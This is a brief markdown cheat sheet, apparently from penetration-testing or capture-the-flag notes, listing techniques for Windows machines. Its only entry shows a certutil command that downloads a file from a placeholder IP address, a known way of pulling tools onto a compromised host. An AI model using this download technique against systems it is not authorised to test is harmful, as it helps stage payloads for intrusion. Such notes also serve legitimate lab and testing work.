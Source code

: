 # Commands & Techniques useful in Windows boxes. 

1. **File Transfer**

We can utilize certutil for this

```
certutil -urlcache -f http://<IP Address>/<file name> saved_file

	-- where saved_file is the name of the file you want to save it as
```

